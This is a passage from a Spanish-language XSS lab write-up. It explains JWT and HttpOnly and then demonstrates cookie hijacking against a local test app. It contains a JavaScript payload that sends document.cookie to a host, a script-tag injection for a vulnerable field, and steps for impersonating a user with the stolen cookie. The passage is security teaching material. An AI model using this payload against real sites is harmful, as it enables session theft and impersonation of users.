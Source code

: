Por su estructura, se puede saber que corresponde a un “JSON Web Token” o JWT. Y se puede ver su contenido si se ingresa en la página: [https://jwt.io/](https://jwt.io/)

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%209.png)

- ¿Qué es un JWT?
    
    JSON Web Token (JWT) es un estándar abierto (RFC-7519) basado en JSON para crear un token que sirva para enviar datos entre aplicaciones o servicios y garantizar que sean válidos y seguros. El caso más común de uso de los JWT es **para manejar la autenticación en aplicaciones móviles o web**.
    

**HTTPOnly**

- ¿Qué es HTTPOnly?
    
    El atributo HttpOnly es un **atributo de navegador creado para impedir que las aplicaciones del lado del cliente** (como los scripts Java™ ) accedan a cookies para evitar algunas vulnerabilidades de scripts entre sitios.
    

Para efectuar el ataque, se debe desactivar el HTTPOnly ya que esto mitiga el ataque de cookie Hijacking.

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2010.png)

Primero se creará un archivo el cual será cargado por un usuario. No hace falta poner las etiquetas <script>:

```bash
var request = new XMLHttpRequest();
request.open('GET', 'http://locahost/?cookie=' + document.cookie);
request.send();
```

Luego, en el campo vulnerable a XSS de la web, se le ingresa el siguiente código:

```bash
<script src="http://localhost/cookiehj.js"></script>
```

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2011.png)

Ahora con la cookie se puede secuestrar la sesión del usuario Kim cambiando la cookie actual con del usuario capturado

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2012.png)

### JavaScript: Cookie Hijacking [2/2]

Ahora se plantea robar la cookie de sesión de los usuarios para hacer un post en nombre de ellos

Primero hay que saber cómo se tramita la petición al subir un nuevo (gossip) post en la web por lo que se intercepta con burpsuite:

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2013.png)

Esta es la petición que se manda al servidor al intentar subir un nuevo post, en este caso, los campos que interesan son la dirección a la que se acude por POST (/newgossip) y los campos del formulario:
